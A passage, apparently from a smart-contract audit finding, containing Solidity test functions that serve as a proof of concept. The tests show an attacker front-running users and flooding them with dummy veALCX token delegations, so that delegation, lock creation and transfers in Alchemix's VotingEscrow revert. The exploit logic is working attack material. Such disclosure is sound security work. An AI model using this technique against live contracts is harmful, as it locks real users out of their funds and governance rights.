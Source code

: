 ```solidity
        veBlockers[1].blockTarget(address(veBlockers[0]));

        hevm.stopPrank();      
    }

    function testAttackerPreventUserFromBeingDelegated() public {
        // mint tokens for alice
        hevm.startPrank(alice);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);
        veALCX.createLock(TOKEN_1, THREE_WEEKS, false);
        hevm.stopPrank();

        // Attacker targeting Bob, So Alice or any other user would not be able to delegate Bob.
        hevm.prank(attacker);
        veBlockers[0].blockTarget(bob);

        // Now, Alice want to delegate Bob,
        // But the call will revert since the attacker saturated bob with dummy tokens. 
        hevm.prank(alice);
        hevm.expectRevert(abi.encodePacked("dst would have too many tokenIds"));
        veALCX.delegate(bob);
    }

    function testAttackerFrontRunsAndBlockCreateLock() public {
        // Alice start a transaction of creating lock for himself
        hevm.prank(alice);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);

        // Attacker front runs alice transaction and block him from creating a lock
        hevm.prank(attacker);
        veBlockers[0].blockDelegateeOf(alice);

        // The revert expected to be: dst would have too many tokenIds
        // This happning since Alice has the maximum delegets amount of token now
        hevm.prank(alice);
        hevm.expectRevert(abi.encodePacked("dst would have too many tokenIds"));
        veALCX.createLock(TOKEN_1, THREE_WEEKS, false);

        // Then, Alice retry to create for another user (Bob)
        // Attacker front runs him and prevent bob from havving a lock too
        hevm.prank(attacker);
        veBlockers[0].blockDelegateeOf(bob);

        hevm.prank(alice);
        hevm.expectRevert(abi.encodePacked("dst would have too many tokenIds"));
        veALCX.createLockFor(TOKEN_1, THREE_WEEKS, false, bob);
    }

    function testAttackerFrontRunsAndBlockTransferFrom() public {
        hevm.startPrank(alice);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);
        uint256 tokenId = veALCX.createLock(TOKEN_1, THREE_WEEKS, false);

        veALCX.transferFrom(alice, bob, tokenId);
        hevm.stopPrank();

        // Front runs transfer transaction
        hevm.prank(attacker);
        veBlockers[0].blockDelegateeOf(alice);

        hevm.prank(bob);
        hevm.expectRevert(abi.encodePacked("dst would have too many tokenIds"));
        veALCX.transferFrom(bob, alice, tokenId);
```

[1]: [alchemix-v2-dao/src/VotingEscrow.sol#L34 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L34)
[2]: [alchemix-v2-dao/src/VotingEscrow.sol#L1040 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1040)
[3]: [alchemix-v2-dao/src/VotingEscrow.sol#L1110 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1110)